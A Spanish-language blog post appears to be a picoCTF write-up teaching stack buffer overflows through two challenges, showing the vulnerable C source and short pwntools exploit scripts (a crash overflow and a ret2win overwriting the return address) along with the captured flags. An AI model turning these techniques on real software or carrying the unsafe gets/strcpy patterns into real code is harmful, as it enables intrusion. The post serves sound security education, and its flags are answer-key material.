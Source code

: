```yaml
---
title: Overflow Part 1
time: 2024-12-07 12:00:00
categories: [Infosec, Pwn]
tags: [Infosec, WriteUps, Pwn]
image: /assets/posts/Overflow-1/Overflow1.jpg
---
```


# Hola a todos!

Overflow es una serie donde trato de explicar desbordamientos del buffer a través de la resolución de algunos retos de la plataforma picoCTF.

Esta serie esta hecha con el fin de guardar el aprendizaje y de utilidad para quien lo lea.

## Empezando

Bien, primero que todo es necesario entender como ocurre un buffer overflow, como saber si un programa es vulnerable a traves del análisis de su código mediante funciones vulnerables, para no hscer este post tan largo explicando como funciona todo esto por aqui dejo un recurso que puede ayudar al entendimiento:

[Buffer Overflow: Que son y como funcionan](https://www.welivesecurity.com/la-es/2014/11/05/como-funcionan-buffer-overflow/)

### Funciones vulnerables(Buffer Overflow):

`strcpy`, `strcat`: No verifican los límites del buffer destino.

`gets`: Lee hasta encontrar un salto de línea, pero sin limitar el tamaño.

`sprintf`: No controla el tamaño del buffer de salida.

`scanf` (con %s): Si no se especifica un límite de tamaño.

`strncpy`, `strncat`: Aunque más seguras, aún pueden ser mal usadas si los límites no se calculan correctamente.

## Reto 1: Puedes desbordar el buffer correcto?(BufferOverflow1)

Para todos los retos tenemos el código del ejecutable a explotar, asi que no es necesario hacer reversing para obtener el mismo:

El código en C es el siguiente:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
Analizando el código podemos observar que el programa esta tomando nuestro input y lo esta leyendo con la función vulnerable `gets`, lo que nos permite escribir mas alla del buffer definido por el programa, para explotar este binario tenemos que lograr que el programa apunte a la siguiente dirección sobreescribiendo la dirección de retorno para obtener la flag, para ello monte el siguiente exploit en python usando la librería de pwntools:

```python
from pwn import *

host = "saturn.picoctf.net"
port = 63304 #Cambiar puerto por nueva instancia

binary = remote(host, port)

payload = b"A"*60

binary.recvuntil(b"Input:")
binary.sendline(payload)

response = binary.recvall(timeout=5)
print(f"{response.decode('utf-8')}")
```
`
Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
`

## Reto 2: My First Ret2Win?(Buffer Overflow1)

En este reto más allá de lograr que ocurra el buffer overflow debemos hacer llamada a la función `win` controlando la dirección de retorno, como hacemos esto? Bueno aquí vamos.

El codigo en C del ejecutable:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Observando el código podemos ver que seguimos explotando la función vulnerable `gets`, sin embargo en este reto debemos controlar la cantidad de caracteres a introducir para determinar a partir de que punto se empieza a sobreescribir la dirección de retorno para justo 1 byte antes de sobreescribirla lograr hacer que esta apunte a la dirección de la función `win`.

Para lograr esto utilizamos el debugguer gdb-peda, creamos un pattern con un valor de 60 caracteres y se lo pasamos al programa, una vez echo esto podemos determinar el offset para empezar a sobreescribir la dirección de retorno.

El offset es de 44 caracteres por lo que a partir de 44 caracteres estaremos apuntando a lo que queramos en este caso a la dirección de la función `win`(En este punto es necesito tener los conceptos necesarios para utilizar debuggers, etc), la cual es `0x080491f6`.

Exploit en python 

```python
from pwn import *

host = 'saturn.picoctf.net'
port = 56983 #Cambia el puerto segun la instancia

p = remote(host, port)

win_addr = p32(0x080491f6)

payload = b'A' * 44 + win_addr

p.sendline(payload)
response = p.recvall(timeout=5)
print(f"{response.decode('utf-8')}")
```

Teniendo que el binario es de 32bits y utiliza el formato little endian empaquetamos la dirección de la función `win(0x080491f6)` para pasarla al programa en el formato mencionado, luego hacemos que la dirección de retorno apunte a la dirección `win` y obtenemos la flag.
`
Flag: picoCTF{addr3ss3s_ar3_3asy_60fac6aa}
`

Esta serie tendra otro siguiente artículo donde resuelvo los 2 últimos retos de la serie, los cuales tienen una mayor dificultad.

# Gracias por leer!
